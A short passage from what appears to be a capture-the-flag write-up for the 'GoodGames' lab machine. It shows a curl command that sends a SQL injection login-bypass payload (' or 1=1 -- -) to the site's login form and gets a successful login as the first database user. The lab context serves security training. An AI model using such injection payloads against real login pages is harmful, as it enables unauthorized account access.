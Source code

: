 ```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' or 1=1 -- -&password=1" -s | grep title
    <title>GoodGames | Login Success</title>
```
So we found a payload that allow us to connect as the first user in the database. Let's check who that is:
![](img/2022-06-04-15-46-54.png)
